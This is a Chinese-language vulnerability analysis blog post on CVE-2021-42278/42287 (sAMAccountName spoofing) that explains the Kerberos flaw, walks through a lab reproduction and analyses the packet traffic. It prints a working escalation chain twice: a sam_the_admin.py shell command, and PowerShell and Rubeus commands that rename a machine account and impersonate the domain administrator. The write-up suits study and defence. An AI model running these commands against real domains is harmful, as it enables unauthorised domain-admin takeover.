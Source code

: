 ```yaml
---
title: CVE-2021-42287_域提权漏洞分析
description: CVE-2021-42287_域提权漏洞分析
date: 2022-02-09
image: https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220118141506204.png
categories:
    - CVE
    - 漏洞
---
```




# CVE-2021-42287

## 0x01 Kerberos认证过程

~~~shell
1.用户向KDC发起AS_REQ,请求凭据是用户hash加密的时间戳，KDC使用用户hash进行解密，如果结果正确返回用krbtgt hash加密的TGT票据
2.用户凭借TGT票据向KDC发起针对特定服务的TGS_REQ请求，KDC使用krbtgt hash进行解密，如果结果正确，就返回用服务hash 加密的TGS票据
3.用户拿着TGS票据去请求服务，服务使用自己的hash解密TGS票据。如果解密正确，就允许用户访问。

上述流程中解决了是谁发起请求的问题，却没有解决有没有权限的问题，于是引入了pac的概念，在第一步中返回的TGT带有pac信息，pac包含用户sid、所在组等，后续通过pac对用户进行判断有没有权限访问该服务。
~~~



## 0x02 分析

简单描述一下逻辑，在普通域机器中，使用s4u2self代替administrator向域控dc申请访问cifs服务的st票据，但是根据申请中的pac来看，当前机器账户是没有权限的，所以TGS必须重新生成PAC结构，才能构成一个合法的高权限的ST。

### CVE-2021-42278

Windows域内机器账户以 **$** 结尾（也就是常见隐藏账户），但是DC没有对创建的机器账户名称做检查，也就是说就算在有一个域控机器名为 **DC$** 的情况下，依旧可以请求让AS签发一个机器名为DC的、不以\$结尾的TGT。 (其实修改的是SamAccountName属性)

关于SamAccountName属性：

> SAM-Account-Name 用于支持运行早期版本操作系统的客户端和服务器的登录名，例如 Windows NT 4.0、Windows 95、Windows 98 和 LAN Manager。实际上是以「Domain\LogonName 」形式命名。

### CVE-2021-42287

结合上述漏洞，当使用由CVE-2021-42278获取到的TGT并通过S4U2self以域管身份请求域控服务的ST时，**请求ST的账户并没有被KDC找到，KDC会自动在尾部添加$并再次寻找**，也就是在TGT中的请求账户为DC，但是KDC寻找SamAccountName属性并没有找到该机器账户，于是自动在账户后面添加 **$** 再次寻找，寻找的账户名就变成了`DC$`，再次寻找也就找到了域控，并以域控的密钥加密了ST返回，至此获取了一个`高权限的ST`。



## 0x03 复现过程

域：doge.com

域控：ad.doge.com 

域管：administrator

普通域用户：test

### 1. 工具复现

Exp: https://github.com/WazeHell/sam-the-admin.git

Payload: `python3 sam_the_admin.py "doge.com/test:Hello123\!" -dc-ip 192.168.197.138  -shell` 

![image-20220118141506204](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220118141506204.png)

### 2. 手动复现

用到Powerspolit和Rubeus

1. 创建机器用户work

   ~~~powershell
   Set-ExecutionPolicy Bypass -Scope Process
   Import-Module .\Powermad.ps1
   New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose
   ~~~

   1. 

   ![image-20220120095108327](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120095108327.png)

1. 清除SPN

   ~~~powershell
   #清除spn，如果不清除，修改samAccountName的时候会尝试修改域控的SPN，导致失败
   setspn -T doge.com -Q */*
   Import-Module .\PowerView.ps1
   Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
   ~~~

   ![image-20220120104743755](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120104743755.png)

3. 重设机器名为域控名

   ```powershell
   Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
   ```



4. 获取TGT

   ~~~powershell
   ./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
   ~~~

   ![image-20220120111003789](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120111003789.png)

5. 将机器用户名重置为原来的用户名

   ~~~powershell
   Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
   ~~~

6. 通过S4U2Self获取ST

   ~~~powershell
   ./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:[Base64 TGT]
   ~~~
   



## 0x04 流量分析

第四步中，获取TGT，对应的是AS_REQ和AS_REP阶段，

![image-20220121093151837](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121093151837.png)

首先查看AS_REQ的字段结构，其中

~~~shell
PVNO：表示的是Kerberos协议的版本，这里代表使用Kerberos V5
msg-type：消息类型
padata：Pre-authentication Data，预身份认证。
PA-DATA PA-ENC-TIMESTAMP：使用用户hash加密的时间戳。
PA-DATA PA-PAC-REQUEST：用于验证用户是否有权限访问某服务，这里为开启状态（include-pac: True）
~~~

![image-20220121093940163](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121093940163.png)

接着查看req-body，其中CNameString是修改后的ad

~~~shell
kdc-options：请求生成票据的标志位
cname：进行身份验证的账户名，这里是我们修改后的,为DC
sname：被请求服务的名字
etype：加密类型
~~~



![image-20220121094324283](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121094324283.png)

之后是AS_REP，此时已经获得了一个TGT，至此流程还是正常的。

![image-20220121101431060](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121101431060.png)



接下来是TGS_REQ阶段，查看tgs-req数据包中的padata，其分为两个结构，一个是PA-TGS-REQ，另一个是PA-FOR-USER。

PA-TGS-REQ用于下一步认证使用的会话密钥，通过`session-key`作为密钥加密时间戳，用户名等信息。

在`S4U2Self`协议扩展中，Service代表用户请求一个`TGS Ticket`，KDC通过用户名和域名来识别用户，或者还有一种方式是通过证书来识别用户，如果通过用户名和域名来识别用户的话，Service会使用自己的TGT并添加一个新的padata，就是`PA-FOR-USER`结构，由于使用S4U2Self请求cifs服务，所以这里也存在`PA-FOR-USER`结构

![image-20220121105241414](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121105241414.png)

可以查看`PA-FOR-USER`的结构，是代`Administrator`的身份请求到cifs服务

![image-20220121105643439](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121105643439.png)

这里传递的TGT是修改后的机器账户名`ad`，申请tgt后该机器账户消失，TGS找不到账户，所以自动使用ad$的身份去创建服务票据。

最后查看TGS_REP中的pac部分，发现UserRID是500，也就是与administrator对应的值，至此获取了一个`高权限的ST`。

![PAC_LOGON_INFO](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/4416f63d-7cb0-460a-a544-ab2cf2cfab20.png)



## 0x05 Commond

~~~powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose


setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:
# 创建机器账户work
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose
#清除spn，如果不清除，修改samAccountName的时候会尝试修改域控的SPN，导致失败
setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
#将机器用户名修改为域控机器名，不带$
Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
#申请tgt
./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
#将机器用户名重置为原来的用户名
Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
#通过S4U2Self获取st
./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:[Base64 TGT]
~~~





